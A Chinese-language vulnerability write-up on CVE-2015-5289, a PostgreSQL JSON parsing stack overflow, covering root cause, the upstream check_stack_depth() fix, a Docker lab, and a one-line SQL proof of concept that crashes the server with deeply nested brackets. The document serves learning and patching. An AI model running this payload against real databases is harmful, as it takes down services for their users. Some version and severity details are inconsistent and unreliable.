



# CVE-2015-5289 CWE-119 PostgreSQL DoS

## 漏洞背景

- **PostgreSQL**：PostgreSQL 是一个开源、功能强大的对象关系型数据库管理系统，广泛应用于 Web 开发、数据分析和企业级应用。它支持 ACID 事务、复杂查询、全文搜索和多版本并发控制（MVCC），确保高并发和数据一致性。PostgreSQL 提供了扩展性，允许用户自定义数据类型、函数和索引，还支持 JSON 和地理空间数据。
- **CWE-119（Improper Restriction of Operations within the Bounds of a Memory Buffer，内存缓冲区边界操作限制不当）**：指程序对内存访问操作缺乏有效边界检查，导致读取或写入超出预期缓冲区的内容。这类漏洞通常会引发缓冲区溢出、信息泄露、程序崩溃，甚至被攻击者远程利用执行任意代码。

## 漏洞原理

CVE-2015-5289:PostgreSQL在将长字符串转换为JSON格式时发生堆栈溢出[26]。这个bug是由使用repeat函数将字符'['重复1000次引发的。在JSON中，“[…]”表示一个数组，这种JSON数组表达式在PostgreSQL中是递归处理的。每个“[”字符代表一个新JSON数组的开头，这使得PostgreSQL在解析过程中递归调用“parse_array”库函数。当“[”个字符太多时，它会继续递归调用库函数，并由于递归深度过大而在最后溢出堆栈。PostgreSQL通过在JSON函数中添加递归深度检查来修复此错误。

## 漏洞定位

分析 PostgreSQL 9.4.5 源码：

在 src\backend\utils\adt\json.c 文件，第 **512** 行`parse_array`函数用于解析 JSON 语法中以 `[` 开头、`]` 结尾的数组结构，并对每个数组元素执行相应的语义动作（如构建 AST 或字符串序列）。

PostgreSQL 解析 `json/jsonb` 数据使用的是 递归下降（recursive descent） 解析方式，`parse_array()` 函数被递归调用，每处理一层数组递归一次。当递归层数过多时，函数内部由于**没有进行栈深度限制检查**，会导致 **栈溢出（stack overflow）**。

```cpp
static void parse_array(JsonLexContext *lex, JsonSemAction *sem)
{
	json_struct_action astart = sem->array_start;
	json_struct_action aend = sem->array_end;

	if (astart != NULL)
		(*astart) (sem->semstate);

    // 进入数组的内部，嵌套层数加一
	lex->lex_level++;

    // 检查数组开头符号 [ 是否存在
	lex_expect(JSON_PARSE_ARRAY_START, lex, JSON_TOKEN_ARRAY_START);
    // 解析数组元素（核心递归）
	if (lex_peek(lex) != JSON_TOKEN_ARRAY_END)
	{

		parse_array_element(lex, sem);

		while (lex_accept(lex, JSON_TOKEN_COMMA, NULL))
			parse_array_element(lex, sem);
	}

    // 检查数组结束符号 ]
	lex_expect(JSON_PARSE_ARRAY_NEXT, lex, JSON_TOKEN_ARRAY_END);

    // 嵌套层级减少
	lex->lex_level--;

	if (aend != NULL)
		(*aend) (sem->semstate);
}
```

## 漏洞修复


升级到 PostgreSQL 9.3.10、9.4.5，或包含提交 `16d58b5b534fa783e2259b407c237fc166ebf7e4` 的更高受支持版本。递归 JSON/JSONB 解析器现在会在每一层嵌套数组或对象处调用 `check_stack_depth()`，在耗尽后端进程栈之前返回可控错误。

直到升级， 限制 JSON 在应用程序输入中嵌入深度,防止不信任的用户任意提交深度嵌入 JSON 数值。 操作系统堆栈限制在崩溃发生时可能会改变,但不是一个可靠的固定。
添加 `check_stack_depth()` 用于解析功能,以防止过度重复。

```cpp
	// ...
	json_struct_action astart = sem->array_start;
	json_struct_action aend = sem->array_end;

	check_stack_depth();  // Added section

	if (astart != NULL)
		(*astart) (sem->semstate);
    // ...
```

## 影响范围


** 受影响的版本:** PostgreSQL：

- 9.3.0 改为 9.3.9
- 9.4.0 改为 9.4.4

## 环境搭建

启动 Docker 环境，PostgreSQL 版本为 9.4.0，管理员为 postgres，密码为 postgres，已存在数据库 test。

```txt
NIST: NVD Base Score: 6.4 HIGH Vector:  CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
```

```txt
cpe:2.3:a:postgresql:postgresql:9.4.0:*:*:*:*:*:*:*
```



## 漏洞复现

1. 使用 postgres 用户身份连接容器中的 PostgreSQL 的数据库 test

   ```bash
   docker exec -it postgres-9.4.0 psql -U postgres -d test
   ```

2. 执行 PoC 代码，可以看到执行后连接关闭且自动退出

   ```postgresql
   \i CVE-2015-5289-PoC.sql
   ```

   

3. 查看容器日志，可以看到 PostgreSQL 遭遇了段错误（signal 11），导致其自身崩溃。

   ```bash
   docker logs postgres-9.4.0 
   ```

   

## PoC分析

```sql
SELECT repeat('[', 100000)::json;
```

`repeat('[', 100000)`生成一个字符串，由 100000 个 `'['` 组成，相当于构造了一个极度嵌套的 JSON 数组开头结构。之后使用`::json`将前面的字符串强制转换为 `json` 类型，诱导 PostgreSQL 进入 **深度递归解析**。每个 `'['` 会调用一次 `parse_array()`，会导致递归过深，最终实现 DoS 攻击。

## 参考链接


[NVD - CVE-2015-5289](https://nvd.nist.gov/vuln/detail/CVE-2015-5289)

[Prevent stack overflow in json-related functions. · postgres/postgres@16d58b5](https://github.com/postgres/postgres/commit/16d58b5b534fa783e2259b407c237fc166ebf7e4)
